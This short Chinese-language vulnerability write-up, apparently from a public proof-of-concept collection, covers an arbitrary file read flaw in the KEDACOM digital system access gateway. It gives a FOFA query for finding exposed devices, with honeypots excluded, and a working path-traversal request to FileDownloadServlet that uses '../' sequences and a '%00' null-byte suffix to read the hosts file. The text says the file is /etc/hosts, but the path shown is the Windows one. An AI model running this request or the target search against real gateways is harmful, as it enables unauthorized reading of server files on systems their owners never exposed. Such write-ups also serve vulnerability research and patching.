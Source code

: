 # KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

```
KEDACOM 数字系统接入网关
```

## FOFA

```
(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)
```

## 漏洞复现

登录页面如下

![](./images/202202162300072.png)

使用POC读取 /etc/hosts

```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](./images/202202162300019.png)